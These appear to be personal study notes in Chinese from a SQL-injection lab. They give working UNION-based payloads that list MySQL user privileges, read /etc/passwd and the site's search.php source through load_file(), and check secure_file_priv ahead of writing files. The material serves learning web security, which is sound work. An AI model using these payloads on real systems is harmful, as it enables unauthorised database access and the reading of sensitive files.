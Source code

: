 其中  可以添加 where grantee =“’root‘@‘localhost’” 仅显示当前用户root权限  
知道了该用户是root 后 如何查询相关 root权限可以干啥  
payload如下：
cn‘ union select 1,grantee,privilege_type,4 from information_schema.user_privileges where grantee="'root'@'localhost'"-- -
翻译如下：
在一列中列出 grantee （当前的用户 是user还是root等） 还有privilege_type 这个是能干的类型，比如sql中这个用户允许能得到的权限类型    在information_schema 这个默认表里 查询user的 权限 
限定在 用户是 root@localhost的粒粒面 
目的是查询 度跟鞋 等详细细节问题 
![[Pasted image 20240129162645.png]]
其中各种权限如下：
delete ：表格
create：数据库 表或者索引
drop ：数据表或者视图
file 解释着可以读取文件跟写入文件 所以尝试读取文件在sql注入中


读取文件  ：应用函数：load_file()这个函数来读文件
具体格式如下：LOAD_FILE('/文件路径绝对路径')
sql形式：select LOAD_FILE('/etc/passwd');
使用union模式如下：
xxxx' union select 1,load_file('etc/passwd'),3,4 -- -
![[Pasted image 20240129163800.png]]
读取文件成功！
另一种方法 
当前页面是search.php而apache 2 的默认存储路径是/var/www/html的 路径 故可以payload：
cnm' union select 1,load_file('/var/www/html/search.php'),3,4-- -
![[Pasted image 20240129164053.png]] 
成功套娃
可以查看源代码 链接漏洞 ：


文件上传漏洞 （sql版本）：
三件事：    1 file 启用权限用户（有这个权限进行写入操作）
          2 mysql全局 secure_file_priv变量未启用
          3位后端服务器上 写入的服务器对应的写入权限 

关于 安全文件权限 
变量：secure_file_priv确定从何处读或者写    如果为空 则允许从整个文件系统读取 否则 如果设置目录 的话 只能从指定的文件读写  
如果为null 则无法从任何目录读取写入   mariadb默认下为设置为空 
  但是  在mysql默认文件夹中 默认为null 或者一写现代设置默认为null 也就是无法今夕孤独些 
  mysql 对应文件位于目录/var/lib/mysql-files这是默认文件路径


首先 思路如下 ：
如何找到关于secure_file_priv 的内容呢？  变量大部分配置存储在 information_schema中 
mysql全局变量存放在  global_variables的表中 其中：
这个表 ：https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html
  有两列 ：![[Pasted image 20240129202338.png]]
  我们只需要
  用where  限制在secure_file_priv这个里面 查看是否为空的  
  于是乎 payload如下 ：
```
  select variable_name,variable_value from information_schema.global_variables where variable_name="secure_file_priv"
  
```
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
翻译 在information_schema的这张默认存储所有数据库的表中的 这个分支 global_variables 显示全局的变量值 并且 拥有 variable_name 跟variable_value 两列 ，后
定位到具体where 的variable_name 我只要 name为secure_file_priv这一列即可
